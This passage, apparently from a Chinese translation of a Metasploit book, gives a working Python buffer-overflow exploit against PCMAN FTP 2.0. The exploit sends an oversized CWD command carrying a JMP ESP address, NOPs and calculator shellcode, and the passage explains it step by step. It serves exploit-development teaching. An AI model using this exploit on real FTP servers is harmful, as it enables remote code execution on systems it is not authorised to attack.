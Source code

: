 ```
import socket as s
from sys import argv
host = "127.0.0.1"
fuser = "anonymous"
fpass = "anonymous"
junk = '\x41' * 2008
espaddress = '\x72\x93\xab\x71'
nops = '\x90' * 10
shellcode= ("\xba\x1c\xb4\xa5\xac\xda\xda\xd9\x74\x24\xf4\x5b\x29\xc9\xb1" "\x33\x31\x53\x12\x83\xeb\xfc\x03\x4f\xba\x47\x59\x93\x2a\x0e" "\xa2\x6b\xab\x71\x2a\x8e\x9a\xa3\x48\xdb\x8f\x73\x1a\x89\x23" "\xff\x4e\x39\xb7\x8d\x46\x4e\x70\x3b\xb1\x61\x81\x8d\x7d\x2d" "\x41\x8f\x01\x2f\x96\x6f\x3b\xe0\xeb\x6e\x7c\x1c\x03\x22\xd5" "\x6b\xb6\xd3\x52\x29\x0b\xd5\xb4\x26\x33\xad\xb1\xf8\xc0\x07" "\xbb\x28\x78\x13\xf3\xd0\xf2\x7b\x24\xe1\xd7\x9f\x18\xa8\x5c" "\x6b\xea\x2b\xb5\xa5\x13\x1a\xf9\x6a\x2a\x93\xf4\x73\x6a\x13" "\xe7\x01\x80\x60\x9a\x11\x53\x1b\x40\x97\x46\xbb\x03\x0f\xa3" "\x3a\xc7\xd6\x20\x30\xac\x9d\x6f\x54\x33\x71\x04\x60\xb8\x74" "\xcb\xe1\xfa\x52\xcf\xaa\x59\xfa\x56\x16\x0f\x03\x88\xfe\xf0" "\xa1\xc2\xec\xe5\xd0\x88\x7a\xfb\x51\xb7\xc3\xfb\x69\xb8\x63" "\x94\x58\x33\xec\xe3\x64\x96\x49\x1b\x2f\xbb\xfb\xb4\xf6\x29" "\xbe\xd8\x08\x84\xfc\xe4\x8a\x2d\x7c\x13\x92\x47\x79\x5f\x14" "\xbb\xf3\xf0\xf1\xbb\xa0\xf1\xd3\xdf\x27\x62\xbf\x31\xc2\x02" "\x5a\x4e")

sploit = junk+espaddress+nops+shellcode
conn = s.socket(s.AF_INET,s.SOCK_STREAM)
conn.connect((host,21))
conn.send('USER '+fuser+'\r\n')
uf = conn.recv(1024)
conn.send('PASS '+fpass+'\r\n')
pf = conn.recv(1024)
conn.send('CWD '+sploit+'\r\n')
cf = conn.recv(1024)
conn.close()

```

此直接攻击使用匿名凭据登录到端口`21`上的 PCMAN FTP 2.0 软件，并使用`CWD`命令攻击该软件。

有关构建漏洞、将其导入 Metasploit 以及绕过现代软件保护的更多信息，请参阅*Nipun Jaswal 撰写的*精通 Metasploit 第一版和第二版*的*第 2-4*章。*

前面列出的利用漏洞的整个过程可分为以下几点：

1.  在`fuser`、`pass`和`host`变量中存储用户名、密码和主机。
2.  为变量`junk`分配`2008 A`字符。这里，`2008`是覆盖 EIP 的偏移量。
3.  将 JMP ESP 地址分配给`espaddress`变量。这里，`espaddress 0x71ab9372`是目标返回地址。
4.  将 10 个 NOP 存储到变量`nops`中。
5.  将用于执行计算器的有效载荷存储在变量`shellcode`中。
6.  连接`junk`、`espaddress`、`nops`和`shellcode`并将其存储在`sploit`变量中。
7.  使用`s.socket(s.AF_INET,s.SOCK_STREAM)`设置插座，并使用`port 21`上的 connect（`host`、`21`）连接到主机。
8.  使用`USER`和`PASS`提供`fuser`和`fpass`成功登录目标。
9.  发出`CWD`命令，后跟`sploit`变量。这将导致堆栈上的返回地址被覆盖，从而使我们能够控制 EIP，并最终执行计算器应用程序。

在[上了解更多有关堆栈溢出漏洞背后的剖析 https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/) 。

让我们尝试执行利用漏洞攻击并按如下方式分析结果：
